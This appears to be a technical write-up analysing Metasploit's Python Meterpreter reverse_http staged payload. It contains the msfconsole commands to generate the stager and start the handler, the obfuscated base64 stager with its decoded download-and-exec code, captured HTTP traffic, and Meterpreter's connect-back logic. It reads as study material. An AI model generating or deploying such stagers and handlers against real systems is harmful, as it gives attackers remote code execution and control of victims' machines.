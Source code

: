 # python/meterpreter/reverse_http (staged payload)

## Stager

### Generate
```
msf5> use python/meterpreter/reverse_http
msf5 payload(python/meterpreter/reverse_http) > set lhost 127.0.0.1
msf5 payload(python/meterpreter/reverse_http) > generate -f raw -o /shared/stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.
version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oez
I6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3Blbm
VyJ10pCmhzPVtdCm89dWwuYnVpbGRfb3BlbmVyKCpocykKby5hZGRoZWFkZXJzPVsoJ1VzZXItQWdlbn
QnLCdNb3ppbGxhLzUuMCAoV2luZG93cyBOVCA2LjE7IFRyaWRlbnQvNy4wOyBydjoxMS4wKSBsaWtlIE
dlY2tvJyldCmV4ZWMoby5vcGVuKCdodHRwOi8vMTI3LjAuMC4xOjgwODAvNWcwMlInKS5yZWFkKCkpCg
==')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import sys
vi=sys.version_info
ul=__import__({2:'urllib2',3:'urllib.request'}[vi[0]],fromlist=['build_opener'])
hs=[]
o=ul.build_opener(*hs)
o.addheaders=[('User-Agent','Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko')]
exec(o.open('http://127.0.0.1:8080/5g02R').read())
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 0.0.0.0
msf5 exploit(multi/handler) > set lport 8080
msf5 exploit(multi/handler) > exploit
```

When connecting to the handler, Metasploit mimicks an Apache server:
```
# curl -v http://127.0.0.1:8080/
* Expire in 0 ms for 6 (transfer 0x56404fb947a0)
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x56404fb947a0)
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 404 File not found
< Content-Type: text/html
< Connection: close
< Server: Apache
< Content-Length: 141
<
* Closing connection 0
<html><head><title>404 Not Found</title></head><body><h1>Not found</h1>The requested URL / was not found on this server.<p><hr></body></html>
```

From the HTTP traffic, we can see how the meterpreter payload is provided from
the server when a specific URL path is requested:
```
GET /5g02R HTTP/1.1
Accept-Encoding: identity
Host: 127.0.0.1:8080
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko

HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: close
Server: Apache
Content-Length: 53956

#!/usr/bin/python
import binascii
import code
import os
import platform
import random
import re
...
```

The right payload is provided according to the checksum of the ASCII characters
in the URL path (modulo 2^8). In this case, `5g02R` is `53 + 103 + 48 + 50 + 82 = 336 = 80 (mod 256)`.
The payload is then selected according to the following lookup table
([source](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/payloads/meterpreter/uri_checksum.rb)):

```python
#
# Define 8-bit checksums for matching URLs
# These are based on charset frequency
#
URI_CHECKSUM_INITW      = 92 # Windows
URI_CHECKSUM_INITN      = 92 # Native (same as Windows)
URI_CHECKSUM_INITP      = 80 # Python
URI_CHECKSUM_INITJ      = 88 # Java
URI_CHECKSUM_CONN       = 98 # Existing session
URI_CHECKSUM_INIT_CONN  = 95 # New stageless session
```

Once the payload is executed, Meterpreter will use the HTTP transport to connect
back to the handler, when `HTTP_CONNECTION_URL` is defined.
```python
...
# these values will be patched, DO NOT CHANGE THEM
DEBUGGING = False
TRY_TO_FORK = True
HTTP_CONNECTION_URL = 'http://127.0.0.1:8080/vZTmXAyyDvpdfEhoAzQRWQuHfGijteWN8k9UD/'
HTTP_PROXY = None
HTTP_USER_AGENT = 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
HTTP_COOKIE = None
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

The checksum of the URI path is 98, which maps to `URI_CHECKSUM_CONN` (existing session):
```
$ python -c "print(reduce(lambda a, b: a+b, [ord(c) for c in 'vZTmXAyyDvpdfEhoAzQRWQuHfGijteWN8k9UD']) % 256)"
98
```
